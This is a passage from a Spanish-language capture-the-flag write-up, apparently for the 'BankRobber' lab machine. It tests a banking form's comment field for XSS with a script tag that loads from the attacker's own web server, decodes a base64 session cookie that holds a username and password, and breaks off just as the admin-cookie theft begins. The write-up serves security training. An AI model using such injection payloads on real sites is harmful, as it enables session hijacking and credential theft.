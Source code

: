 
## Vulnerability Assessment {-}

### XSS {-}

Testeamos que accion puede efectuar el administrador y por el mismo tiempo, si el input de comment es vulnerable a un **XSS**.

1. Nos montamos un servidor web en python

    ```bash
    python3 -m http.server 80
    ```

1. Modificamos los valores de la transferencia

    ```bash
    Amount: 1
    ID of Addressee: 1
    Comment to him/her: <script src="http://10.10.17.51/diamondjackson.jpg"></script>
    ```

Aqui vemos que esta vulnerable a XSS porque recibimos una peticion GET.


La idea aqui seria robar la cookie de session del administrador.

1. Checkeamos nuestra propria cookie de session con Burpsuite

    ```{r, echo = FALSE, fig.cap="get cookie with Burpsuite", out.width="90%"}
        knitr::include_graphics("images/BankRobber-mycookie.png")
    ```

1. Como la cookie esta URL encodeada le damos a Ctrl+Shift+U y copiamos la cookie
1. Analyzamos la cookie

    - Tiene 3 campos, *id* - *username* - *password*
    - Decodificamos el username

        ```bash
        echo "czR2aXRhcg==" | base64 -d; echo
        #Output
        s4vitar
        ```
    
    - Decodificamos el password

        ```bash
        echo "czR2aXRhcjEyMw==" | base64 -d; echo
        #Output
        s4vitar123
        ```

    Aqui vemos que la cookie unicamente esta encryptada en base64.

1. Intentamos robar la cookie del admin.

    - Creamos un fichero test.js
